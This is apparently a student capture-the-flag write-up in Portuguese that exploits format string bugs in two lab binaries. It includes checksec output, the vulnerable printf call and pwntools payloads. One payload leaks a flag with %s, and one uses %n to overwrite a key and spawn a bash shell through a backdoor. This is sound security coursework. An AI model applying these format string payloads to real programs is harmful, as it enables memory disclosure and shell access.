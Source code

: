 # CTF Semana #5 (Format string)

## Desafio 1

### Recolha de informação

Começamos por analisar os ficheiros disponibilizados na plataforma CTF: um executável (`program`), o código fonte (`main.c`) e um script em python (`exploit_example.py`).

De seguida, corremos o comando `checksec program`, onde obtivemos o seguinte output:

```bash
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

Ao analisar apercebemo-nos que:
- a arquitetura do ficheiro é x86 (Arch)
- existe um canário a proteger o return address (Stack)
- a stack não tem permisssão de execução (NX)
- as posições do binário não estão randomizadas (PIE)

### Reconhecimento da vulnerabilidade

No `main.c`, verificamos que a funcão `scanf` guarda o input introduzido pelo utilizador num buffer local de 32 bytes, sendo impresso por um `printf` sem argumentos adicionais.

```c
scanf("%32s", &buffer);
printf("You gave me this: ");
printf(buffer);
```

Assim sendo, concluimos que podemos explorar as vulnerabilidades associadas ao format string se o nosso input tiver format specifiers.


### Exploração da vulnerabilidade

Primeiramente, recorremos ao `gdb` para descobrir o endereço de memória da variável onde se encontra a flag:

<img src="../screenshots/ctf7/d1_flag.PNG" alt="flag">

No `exploit-example.py`, que interage com o serviço, mudamos a seguinte linha de código para que injetasse o endereço de memória da flag e que desse print `%s`:

```py
p.recvuntil(b"got:")
p.sendline(b"\x60\xC0\x04\x08%s")
p.interactive()
```

Ao executar o script, obtivemos a flag como o esperado:

<img src="../screenshots/ctf7/flag1.PNG" alt="flag">



## Desafio 2

### Recolha de informação

Mais uma vez, começamos por analisar os ficheiros disponibilizados na plataforma CTF: um executável (`program`) e o código fonte (`main.c`) 

De seguida, corremos o comando `checksec program`, onde obtivemos o seguinte output:

```bash
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

Ao analisar apercebemo-nos que:
- a arquitetura do ficheiro é x86 (Arch)
- existe um canário a proteger o return address (Stack)
- a stack não tem permisssão de execução (NX)
- as posições do binário não estão randomizadas (PIE)

### Reconhecimento da vulnerabilidade

Tal como no desafio anterior, verificamos que a funcão `scanf` guarda o input introduzido pelo utilizador num buffer local de 32 bytes, sendo impresso por um `printf` sem argumentos adicionais.

```c
scanf("%32s", &buffer);
printf("You gave me this: ");
printf(buffer);
```

Assim sendo, concluimos que podemos explorar as vulnerabilidades associadas ao format string se o nosso input tiver format specifiers, nomeadamente o `%n`, de modo a modificarmos o valor da variável global `key` para `0xbeef` e, consequentemente, lançar uma bash.

```c
if(key == 0xbeef) {
    printf("Backdoor activated\n");
    fflush(stdout);
    system("/bin/bash");    
} 
```

### Exploração da vulnerabilidade

Primeiramente, recorremos ao `gdb` para descobrir o endereço de memória da variável onde se encontra a key:

<img src="../screenshots/ctf7/d2_key.PNG" alt="key">

`0xbeef` tem o valor de **48879** em decimal, pelo que antes de `%n` teremos que escrever 48879 bytes. Sendo que o endereço da variável ocupa 4 bytes, ainda precisamos de 48875 bytes. 

Como o `buffer` apenas tem 32 bytes disponíveis, recorremos à expressão compacta de leitura do printf `%.Nx`, sendo que precisamos de 4 (espaço de 1 endereço) + 48871 bytes:

No `exploit-example.py`, que interage com o serviço, mudamos a seguinte linha de código para que alterasse o valor da `key` na memória:

```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x24\xB3\x04\x08%.48871x%n")
p.interactive()
```

Ao executar o script, obtivemos a flag como o esperado:

<img src="../screenshots/ctf7/flag2.PNG" alt="flag">


